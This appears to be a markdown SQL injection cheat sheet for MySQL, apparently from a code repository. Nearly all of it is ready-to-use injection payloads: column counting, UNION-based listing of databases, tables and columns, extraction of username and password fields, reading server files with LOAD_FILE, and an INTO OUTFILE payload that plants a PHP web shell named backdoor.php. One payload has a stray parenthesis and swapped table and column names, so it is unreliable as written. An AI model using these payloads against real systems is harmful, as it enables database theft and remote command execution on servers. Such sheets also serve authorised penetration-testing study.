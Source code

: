 # SQL Injection Cheat Sheet

### Before you start

* Make sure to tell the differnence between numeric and string-based SQL Injection!
* Try both `'`, `"` quotes for string prefixes for string based injection.
* Try both `--` and `#` for suffixes in all injections. 
* Do simple subtraction for numeric based injection.

### Count enumerable columns

```mysql
' ORDER BY 1;-- 
```

### Render data from the database onto the webpage

```mysql
' UNION ALL SELECT 1,2;-- 
```

### List all databases

The techniques below demonstrates how to smuggle multiple returned fields into
a single row since the application may limit the amount of rows rendered. This
technique is also limited to 1024 characters, so be aware of that.

```mysql
' UNION ALL SELECT (SELECT GROUP_CONCAT(schema_name SEPARATOR ', ') from information_schema.schemata),2;-- 
```

### List all tables for a particular database

```mysql
' UNION ALL SELECT (SELECT GROUP_CONCAT(table_name SEPARATOR ', ') from information_schema.columns where table_schema = 'somedatabase'),2;-- 
```

### Get columns for a particular table

```mysql
' UNION ALL SELECT (SELECT GROUP_CONCAT(column_name SEPARATOR ', ') from information_schema.columns where table_schema = 'somedatabase' and table_name = 'sometable'),2;-- 
```

### Get username and password in a single row

```mysql
' UNION ALL SELECT CONCAT(col1,';',col2) from sometable.somecolumn),NULL;-- 
```

### Check if you can read a file

TIP: If you cannot find the web root, then you can try to write to a web root
that you think exists and write a PHP info file to get more information about
the web server. On Apache, sometimes the default PHP file can be phpinfo.php
under the web root.

Common web roots are /var/www and /var/www html.

```mysql
' UNION ALL SELECT LOAD_FILE('/var/www/html/index.html'),NULL;--
```

### Write to a file

This will only work when the database
and webserver are on the same host and the database has permission to write to
the web root!

```mysql
' UNION ALL SELECT (SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE "/opt/lampp/htdocs/backdoor.php"),NULL;--
```
